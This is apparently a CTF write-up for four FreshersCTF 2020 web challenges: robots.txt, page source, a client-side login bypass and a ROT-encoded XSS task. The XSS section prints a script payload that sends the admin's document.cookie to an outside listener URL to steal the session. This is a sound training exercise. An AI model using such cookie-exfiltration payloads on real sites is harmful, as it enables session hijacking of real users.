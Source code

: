 ```yaml
---
layout: post
title:  "FreshersCTF 2020 Web Challenges Writeups"
description: Writeup for the challenges in the Web category for the FreshersCTF 2020 ran by ENUSEC. 
date:   2020-12-27 20:27:00 +0000
categories: CTF WebApp
---
```

# Robots go Beep	

## Problem

We are given a website with a big robot in it and nothing else. Well, the hint is pretty obvious, isn't it?

If this isn't obvious for you because you are barely starting, wikipedia says [robots.txt, is a standard used by websites to communicate with web crawlers and other web robots](https://en.wikipedia.org/wiki/Robots_exclusion_standard) 

![1](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/robots_go_beep_1.png)

## Solution

We only need to check /robots.txt to follow the clue.

![2](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/robots_go_beep_2.png)

Another hint, this time about the sitemap! We know what to do, don't we? [Wiki site about sitemaps](https://en.wikipedia.org/wiki/Site_map)

![3](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/robots_go_beep_3.png)

# Saucy

## Problem

We are given a website containing a yummy tomato sauce picture. I personally went mad overcomplicating this one trying to steganography the hell out of the picture without any result.

## Solution

Then I realised `saucy` was a hint towards `source` (code), so I double-checked and there it was:

![1](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/saucy1.png)

That easy, just go to that folder. Note to future-self: try and get the low hanging fruit first, you *dummy*!

![2](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/saucy2.png)

# Not Java

## Problem

```
Ooops.

Looks like the developers of this Authentication system left a huge gigantic gaping hole in the application.

Can you exploit their incompetence?
```

We are presented a dull login page. 

Exactly as it happened to me with Saucy, happened to me with "Not Java". 

I realised the solution at the time the CTF was about to finish. I guess some pressure helps me thinking!

## Solution

If we stop trying to bruteforce the login form for a minute and check the script running in the page, we find it's calling a function to log us in. That function is checking parameters and then calling another function: `logIn("")`. The only thing we need to do is calling it in the devtools console and we'll get the door wide open!.

![1](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/not_java_1.png)

![2](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/not_java_2.png)

We get redirected to our flag straight away:

![3](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/not_java_3.png)

# KFF

## Problem

```
This encoding application seems to have a massive oversight.

Can you exploit it and steal the Admins session?
```

We get a big lock image with two prompts that encode a message, one for viewing ourselves our encoded message and another one to send the encryped message to the admin. 
Smells like [XSS](https://owasp.org/www-community/attacks/xss/), doesn't it?

## Solution

Let's try to encode some messages. If we say `hello`, we receive `ifmmp`. It looks like we have a [ROT13](https://en.wikipedia.org/wiki/ROT13) variant cipher instead of an encoding, right?. 

![1](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/kff_1.png)  

However, if we try with symbols, they also rotate, therefore we are talking about a variant of [ROT47](https://en.wikipedia.org/wiki/ROT13#Variants) encryption with a rotation we don't know yet.

![2](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/kff_2.png)

We can use [Cyberchef](https://gchq.github.io/CyberChef/)'s ROT47 tool to play around with the ciphertext until we decrypt it:

![3](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/kff_6.png)

We find the ciphertext being decrypted as ROT1 but what we actually need is the oposite to correctly encrypt our payload:

![4](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/kff_7.png)

We finally discover the encryption is ROT-1 (ROT47(-48)). Let's try then to get some XSS working!

![5](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/kff_4.png)

... And we were right!!!

Now that we finally have our PoC working, we need to send the payload to the admin in order to steal their session cookie. We can do this with the following payload, where `document.location=<our website>?cookie=` is the listening server we control with a cookie request URL encoded and `document.cookie` is the cookie we want to steal from the admin:  

```
<script>document.location="https://enx0ouxtov1d1z8.m.pipedream.net?cookie="+document.cookie;</script>
```
![6](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/kff_5.png)

`Author: @0x5ubt13`
